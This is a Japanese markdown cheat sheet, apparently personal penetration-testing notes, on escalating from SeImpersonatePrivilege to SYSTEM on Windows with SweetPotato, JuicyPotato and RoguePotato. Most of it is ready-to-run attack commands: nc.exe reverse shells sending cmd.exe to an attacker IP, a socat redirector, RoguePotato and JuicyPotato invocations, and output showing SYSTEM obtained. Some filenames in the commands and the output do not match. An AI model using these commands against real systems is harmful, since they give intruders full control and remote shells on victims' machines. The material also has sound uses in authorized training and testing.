


# JuicyPotate

sweetpotateは包含的にpocを実行してくれるためまずはそちらを試す

[前提確認](#前提確認)

[実行(sweetpotate)](#実行(sweetpotate))

[実行(juicypotate)](実行(juicypotate))

[実行(roguepotate)](#実行(roguepotate))

[参考サイト](#参考サイト)

### 前提確認

```
whoami /priv
```

`SeImpersonatePrivilege`権限があることを確認

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

windowsのビルドバージョンを確認

* ```
  攻撃対象のマシンが < Windows 10 1809 < Windows Server 2019 の場合 - Juicy Potato
  ```

* ```
  攻撃対象のマシンが >= Windows 10 1809 & Windows Server 2019 の場合 - Rogue Potato
  ```


### 実行(sweetpotate)

https://github.com/uknowsec/SweetPotato/blob/master/img/webshell-new.png

```cmd
SweetPotato.exe -a whoami
SweetPotato.exe -a "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe"
```


### 実行(juicypotate)

https://github.com/ohpe/juicy-potato

juicy-potatoをvisual studioでコンパイルして、攻撃対象ホストに配送し、コマンドを実行する。

```cmd
C:\Users\Public\UsersPublicJuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837

----
# 実行結果
C:\Users\Public>UjiycOptaot.exe -t t -p C:\Users\Public\whoami.exe -l 5837
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 5837
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

* -t：CreateProcessWithTokenの使用を指示する

* -pフラグで実行しようとするプログラムを指定

* -lフラグでCOMサーバーがリッスンするポートを任意に指定

* whoami.exeは任意のバイナリファイル(mafvenomで作成して事前配送すること）

  **※whoami単体できちんとリバースシェル取得できるかをまず確認する**


### 実行(roguepotate)

* https://github.com/antonioCoco/RoguePotato

  

* 事前に2つのexeを配送

  

* kaliでsocatをListenする

  ```bash
  sudo socat tcp-listen:135,reuseaddr,fork tcp:<攻撃対象ホスト>:9999
  ```

* nc64.exeを配送する

  ```
  nc.exe 192.168.119.169 4444 -e cmd.exe
  ```

* PoCを実行する

  ```
  RoguePotato.exe -r 192.168.119.169 -e "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe" -l 9999
  ```


### x86でビルドする方法

* visualstudioのフォルダビューで`JuicyPotato.vcxprof`を開き、ConfigurationTypeがApplicationになっていることを確認する

  

* 構成プロパティ→リンカー→システムのサブシステムを変更する

  【変更前】Windows (/SUBSYSTEM:WINDOWS) 
  【変更後】コンソール (/SUBSYSTEM:CONSOLE)
  https://detail.chiebukuro.yahoo.co.jp/qa/question_detail/q13198063873

  https://learn.microsoft.com/ja-jp/cpp/build/reference/subsystem-specify-subsystem?view=msvc-170

  上記サイトを参照すると、win32文字モードアプリケーションに対する設定のよう。
  今回の修正をしたことでx64でのビルドが失敗する可能性があるので注意すること


### JuicyPotateのOS対応表

https://jlajara.gitlab.io/Potatoes_Windows_Privesc


### CLSIDの対応表

https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/


### トラブルシュート

FTPで転送するときは必ずバイナリモードで

```cmd
C:\Users\Public>JuicyPotato.exe
JuicyPotato.exe
This version of C:\Users\Public\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
```


### 参考サイト

[potatesのまとめサイト](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

